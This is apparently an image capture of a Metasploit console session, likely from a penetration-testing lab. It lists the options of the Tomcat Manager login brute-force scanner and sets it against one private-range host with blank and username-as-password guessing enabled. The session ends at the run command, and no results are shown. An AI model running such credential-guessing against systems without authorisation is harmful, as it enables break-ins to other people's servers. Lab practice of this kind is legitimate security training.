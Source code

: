 ```
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> options

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                         Required  Description
   ----              ---------------                                         --------  -----------
   BLANK_PASSWORDS   false                                                   no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                       yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                   no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                   no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                   no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                    no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                                                                  no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_  no        File containing passwords, one per line
                     mgr_default_pass.txt
   Proxies                                                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.htm
                                                                                       l
   RPORT             8080                                                    yes       The target port (TCP)
   SSL               false                                                   no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                   yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                           yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                       yes       The number of concurrent threads (max one per host)
   USERNAME                                                                  no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_  no        File containing users and passwords separated by space, one pair per line
                     mgr_default_userpass.txt
   USER_AS_PASS      false                                                   no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_  no        File containing users, one per line
                     mgr_default_users.txt
   VERBOSE           true                                                    yes       Whether to print output for all attempts
   VHOST                                                                     no        HTTP server virtual host


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> set RHOSTS 10.129.75.157
RHOSTS => 10.129.75.157
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> set USER_AS_PASS true
USER_AS_PASS => true
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> run
```